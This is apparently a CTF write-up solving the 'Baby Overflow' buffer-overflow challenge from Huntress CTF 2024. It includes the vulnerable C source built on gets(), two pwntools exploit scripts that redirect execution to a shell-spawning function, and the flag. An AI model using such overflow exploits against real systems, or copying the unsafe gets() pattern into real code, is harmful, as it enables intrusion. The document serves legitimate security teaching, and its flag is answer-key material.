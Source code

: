 # Baby Overflow

![image](https://github.com/user-attachments/assets/f2fb6e85-6914-4f75-8f40-85ebaad10fc7)

Download: [babybufov](https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/Huntress-CTF-2024/challenge-files/babybufov) [babybufov.c](https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/Huntress-CTF-2024/challenge-files/babybufov.c)


## My Solution

We get the source code and a binary file:  

![image](https://github.com/user-attachments/assets/c7e457e4-350f-4004-aedf-4306092f8697)

From the source code, we can tell that we need to jump to the `target` function via the `vuln` function which is vulnerable to a standard buffer overflow.

```C
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

It's a 32-bit file using this library:  

![image](https://github.com/user-attachments/assets/97d43191-7b3a-48e7-ad36-820fc3b40a1d)

So I had to make sure I have it instealled otherwise I couldn't run it:  

```bash
sudo apt install musl:i386
```


Opening the binary in ghidra, we can see the address of the target function:  

![image](https://github.com/user-attachments/assets/4e7c2900-b0e8-46fa-9c1c-96bff2bd29aa)

And we know that the vuln function takes 24 characters. 

![image](https://github.com/user-attachments/assets/e9ba1d8e-1838-4849-bc9e-7bb25e2d0a54)

This being a 32-bit binary, gives us an offset of 28. Using the script below we can overflow and get to the target.

```python
from pwn import *

remote_ip = 'challenge.ctf.games'  
remote_port = 30359  

p = remote(remote_ip, remote_port)

target_function = 0x80491f5
offset = 28

payload = b'A' * offset
payload += p32(target_function)  

p.sendline(payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/92a6ed46-51d4-4b1a-960e-ac60d5ebb58d)

It can also be done without knowing the target address by using the elf symbols from the binary:  

```python
from pwn import *

prog = remote('challenge.ctf.games', 30406)
elf = ELF("./babybufov")
payload = b"A" * 28
payload += p32(elf.symbols["target"])
prog.sendline(payload)
prog.interactive()
```

`flag{4cd3b4079393e861af489ca063373f98}`
